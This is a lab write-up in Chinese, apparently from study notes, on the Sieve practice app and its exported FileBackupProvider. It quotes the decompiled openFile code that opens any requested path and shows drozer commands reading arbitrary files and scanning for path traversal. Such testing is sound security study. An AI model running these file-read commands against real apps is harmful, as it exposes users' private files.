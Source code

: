 ```yaml
---
title: Test Sieve - content providers exported - File SystemBased
tags: [Android, Drozer]

---
```


# Test Sieve - content providers exported - File SystemBased
1. 有關於基於File System的Content Provider - 逆向
    在`com.mwr.example.sieve.FileBackupProvider`中可以特別注意onCreate以及ParcelFileDescriptor這個funnction
    ```java
    public class FileBackupProvider extends ContentProvider {
        ...
        @Override // android.content.ContentProvider
        public boolean onCreate() {
            this.sUriMatcher.addURI("com.mwr.example.sieve.FileBackupProvider", "*", DATABASE);
            return false;
        }

        @Override // android.content.ContentProvider
        public ParcelFileDescriptor openFile(Uri uri, String mode) {
            int modeCode;
            if (mode.equals("r")) {
                modeCode = 268435456;
            } else if (mode.equals("rw")) {
                modeCode = 805306368;
            } else if (mode.equals("rwt")) {
                modeCode = 805306368;
            } else {
                Log.w(TAG, "Unrecognised code to open file: " + mode);
                return null;
            }
            try {
                return ParcelFileDescriptor.open(new File(uri.getPath()), modeCode);
            } catch (FileNotFoundException e) {
                Log.e(TAG, "ERROR: unable to open file: " + e.getMessage());
                return null;
            }
        }
    ```
5. 實際讀取文件或是Path Traversal
    為了測試他真的能夠讀取到特定文件，我在手機的Download創了一個secret.txt，不管是哪一個file，都可以正常讀取
    ```bash
    $ echo "this is secret file" > /storage/emulated/0/Download/secret.txt
    dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/storage/emulated/0/Download/secret.txt
    Attempting to run shell module
    this is secret file

    dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
    Attempting to run shell module
    127.0.0.1       localhost
    ::1             ip6-localhost
    ```
    也可以利用drozer自動找尋path traversal的漏洞在哪裡
    ```bash
    dz> run scanner.provider.traversal -a com.mwr.example.sieve
    Attempting to run shell module
    Scanning com.mwr.example.sieve...
    Not Vulnerable:
      content://com.mwr.example.sieve.DBContentProvider/Keys/
      content://com.mwr.example.sieve.DBContentProvider/Passwords
      content://com.mwr.example.sieve.DBContentProvider/Passwords/
      content://com.mwr.example.sieve.DBContentProvider/
      content://com.mwr.example.sieve.DBContentProvider/Keys
      content://com.mwr.example.sieve.DBContentProvider

    Vulnerable Providers:
      content://com.mwr.example.sieve.FileBackupProvider
      content://com.mwr.example.sieve.FileBackupProvider/
    ```